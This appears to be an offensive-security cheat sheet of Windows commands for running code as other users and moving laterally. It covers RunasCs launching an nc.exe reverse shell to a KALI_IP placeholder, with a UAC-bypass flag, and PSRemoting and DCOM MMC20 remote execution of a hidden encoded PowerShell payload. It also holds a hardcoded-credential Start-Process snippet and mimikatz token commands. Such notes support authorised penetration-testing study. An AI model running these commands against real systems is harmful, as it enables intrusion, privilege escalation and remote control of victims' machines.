 ```shell
# B PS
Start-Process PowerShell -Verb RunAs
```
## start-process (Non GUI)
```shell
# Need to create a secured credential
$Username = "DOMAIN\Username"
$Password = "Password"
$SecurePassword = ConvertTo-SecureString $Password -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential ($Username, $SecurePassword)

Start-Process -FilePath C:\path\to\program.exe -Credential $Credential
```
## RunasCs (Non Gui)
```shell
# A Invode-RunasCs.ps1
powershell -ep bypass
. .\Invoke-RunasCs.ps1

# nc.exe reverse payload (try others if it doesnt work)
Invoke-RunasCs DOMAIN\user pass "C:\Users\Public\nc.exe KALI_IP LPORT -e powershell" --force-profile --logon-type 2


# B RunasCs.exe
RunasCs.exe user pass cmd ...
-d [domain]
-r [host]:[port] (reverse shell)
-b (bypasses UAC)

# https://github.com/antonioCoco/RunasCs/tree/master
```
## psremoting
```shell
# 1 In ADMIN powershell, add target to trustedhosts
Enable-PSRemoting
Set-Item wsman:\localhost\client\trustedhosts 192.168.50.80


# 2 Run
# A Single command
Invoke-Command -ComputerName 192.168.50.80 -ScriptBlock { ipconfig } -Credential offensive

# B Session
Enter-PSSession -ComputerName 192.168.50.80 -Credential offensive
```
## Dcom
```shell
$TARGET = "192.168.50.73";
$dcom=[System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1",$TARGET));
# python3 encode.py and sub in to below
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -enc ...","7")
```
## mimikatz
```shell
privilege::debug
token::elevate
token::revert
```